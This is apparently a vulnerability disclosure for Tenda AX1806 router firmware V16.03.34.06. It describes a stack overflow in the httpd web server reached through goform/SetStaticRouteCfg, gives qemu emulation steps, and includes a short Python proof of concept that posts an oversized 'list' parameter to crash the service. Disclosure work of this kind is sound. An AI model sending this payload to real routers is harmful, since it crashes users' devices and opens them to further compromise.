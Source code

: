 ### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站：[https://www.tenda.com.cn/material/show/103518](https://www.tenda.com.cn/material/show/103518)

### Affected version

**V16.03.34.06**

### Environmental simulation

need build Network bridge:

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

qemu start command：

```text-plain
sudo qemu-mipsel-static -L . ./bin/httpd
```

### Vulnerability details

tdhttpd in directory /bin has stack overflow vulnerability. The vulnerability occurrs in the function, which can be accessed via the URL .`fromSetRouteStatic goform/SetStaticRouteCfg`
![image](https://github.com/Raining-101/IOT_cve/blob/326b7c464ac9bdadf22b3eb19b48fd54df416bde/image/1_tenda-ac8_image.png）

Stack overflow point：

![image](https://github.com/Raining-101/IOT_cve/blob/326b7c464ac9bdadf22b3eb19b48fd54df416bde/image/2_tenda-ac8_image.png)

### PoC

```text-plain
import requests

data = {
    b"list": b'Raining'*0x400+b',R,R,R'
}
res = requests.post("http://192.168.142.100/goform/SetStaticRouteCfg", data=data)
print(res.content)
```

![image](https://github.com/Raining-101/IOT_cve/blob/23e96bdb4dae3997d1c5555a8011196e5e357ac1/image/3_tenda-ac8_image.png)
